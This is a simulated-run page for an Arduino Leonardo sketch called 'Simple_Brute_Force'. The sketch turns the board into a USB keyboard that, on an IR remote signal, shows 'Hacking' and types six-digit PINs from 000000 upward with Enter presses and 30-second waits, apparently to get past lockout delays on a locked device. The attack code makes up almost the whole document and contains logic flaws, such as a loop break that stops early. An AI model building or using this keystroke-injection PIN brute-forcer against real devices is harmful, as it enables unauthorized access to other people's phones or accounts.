
Simulated run of this sketch. Board: Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. On the bench: 16×2 character LCD, output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench. USB keyboard and mouse output is not drawn.

Above: at 1.1 s.
At 6.2 s:

6.3 s: infrared code 0xFF30CF received
At 7.1 s:

Timing chart, 0 to 9.3 s (numbered marks = the images above; inputs shaded):


The sketch:

Simple_Brute_Force.ino
```cpp
#include <LiquidCrystal.h>
#include <IRremote.h>
#include <Keyboard.h>

#define KEY_KP_ENTER 0xE0

//lcd
  LiquidCrystal lcd(2,3,4,5,6,7);

//ir
  IRrecv ir(12);
  decode_results results;

char ENTER = KEY_KP_ENTER;

void setup() {

//keyboard and mouse
  Keyboard.begin();

//ir
  ir.enableIRIn();

//leds
  //red led on stop
    pinMode(8,OUTPUT);
  //yellow led on start
    pinMode(9,OUTPUT);
    digitalWrite(9,HIGH);
  //green led on play
    pinMode(10,OUTPUT);

//buzzer
  pinMode(11,OUTPUT);

//lcd
  lcd.begin(16,2);
  Serial.begin(9600);


//about device
  lcd.setCursor(0,0);
  lcd.print("Brute");
  lcd.setCursor(0,1);
  lcd.print("Force");
  delay(1000);
  lcd.clear();
  lcd.setCursor(0,0);
  lcd.print("Producted by");
  lcd.setCursor(0,1);
  lcd.print("NIT");
  delay(2000);
  lcd.clear();
  lcd.setCursor(0,0);
  lcd.print("Made by");
  delay(1000);
  lcd.clear();
  lcd.setCursor(0,0);
  lcd.print("Salim Marwan");
  delay(1000);
  lcd.clear();

}

void loop() {

   lcd.setCursor(0,0);
   lcd.print("1 - Start");
   lcd.setCursor(0,1);
   lcd.print("0 - Stop");
   delay(5);

   if(ir.decode(&results)){

      lcd.clear();

      int value = results.value;
      long vfrom = 000000;
      long vto = 999999;
      switch(value){

         case 0xFF30CF:

         //on start hach
             digitalWrite(10,HIGH);
             lcd.setCursor(0,0);
             lcd.print("Hacking");
             delay(200);
             for(long i=vfrom;i<=vto;i++){

                     Keyboard.press(ENTER);
                     Keyboard.release(ENTER);
                     if(i<5){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<6){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<7){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<10){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<100){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<1000){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<10000){
                     Keyboard.print(0);
                     Keyboard.print(0);
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<100000){
                     Keyboard.print(0);
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     }else if(i<=999999){
                     Keyboard.print(i);
                     delay(200);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(30000);
                     Keyboard.press(ENTER);
                     delay(200);
                     Keyboard.release(ENTER);
                     delay(200);
                     break;

                   }

             }

         //on stop hack

            lcd.clear();
            Keyboard.releaseAll();
            Keyboard.end();
            digitalWrite(8,HIGH);
            lcd.setCursor(0,0);
            lcd.print("Done");

            for(int a=1;a<5;a++) //loop five times
            {
                for(int i=200;i<=800;i++) //frequency from 200 to 800
                {
                    tone(11,i);
                    delay(5);
                }

                delay(5);

                for(int i=800;i>=200;i--) //frequency from 800 to 200
                {
                    tone(11,i);
                    delay(5);
                }
             }

             noTone(11);
             digitalWrite(8,LOW);
             break;

      }

      switch(value){

         case 0xFFC23D:

             lcd.display();
             break;

      }

      switch(value){

          case 0xFF6897:

             lcd.noDisplay();
             break;

      }
     ir.resume();
   }
}
```

Measured:
- after the input at 6.3 s, pin 10: LOW → HIGH at once; the display: changes at once (image 2)
- what the display in image 0 shows lasts 2.0 s, from 1.1 s to 3.1 s
